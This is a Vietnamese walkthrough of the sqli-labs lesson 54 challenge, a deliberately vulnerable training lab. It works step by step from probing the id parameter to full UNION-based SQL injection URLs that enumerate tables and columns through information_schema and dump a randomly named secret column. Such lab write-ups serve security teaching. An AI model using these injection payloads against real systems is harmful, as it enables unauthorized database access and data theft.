







# Những việc làm được với lesson-54
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-54



```
The objective of this challenge is to dump the (secret key) from only random table from Database ('CHALLENGES') in Less than 10 attempts
For fun, with every reset, the challenge spawns random table name, column name, table data. Keeping it fresh at all times.
```
Ta để ý cái dòng này trong đầu bài là tìm ra dữ liệu trong bảng luôn thay đổi của DB `challenge` trong vòng 10 lần thử. 

1. Tìm cấu trúc của DB này ta sẽ tìm cấu trúc bằng các ký tự đặc biệt. 

- Lần 1 : nhập id =1. Nó đưa ra dữ liệu và ta có thể sử dụng được union nhưng ta cần tìm cấu trúc của nó 

- lần 2: Thêm ký tự đặc biệt 

```
192.168.80.225/sqli-labs/Less-54/?id=1'
```



Và ta không thấy lỗi xuất ra ta không thể sử dụng error base được. 

- Lần 3: Thêm `--+` vào cuối và ta nhận được kết quả. Theo kinh nghiệm thì đây là cấu trúc của id. `id='$id'` 



- Lần 4,5: Ta biết được DB là `challenges` Ta sẽ show tên của tất cả các table trong đó 

```
192.168.80.225/sqli-labs/Less-54/?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



- Lần 6,7 : Ta đọc tên các cột của bảng này 
```
192.168.80.225/sqli-labs/Less-54/?id=0' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='challenges' AND table_name='IW2M98E3SI'  --+
```



Lần 8,9: Ta đọc dữ liệu trong bảng này. 

192.168.80.225/sqli-labs/Less-54/?id=0' union SELECT group_concat(id),group_concat(sessid),group_concat(secret_DCJW) from IW2M98E3SI --+



Sa đó ta có được dữ liệu thì ta nhập nó vào đây 




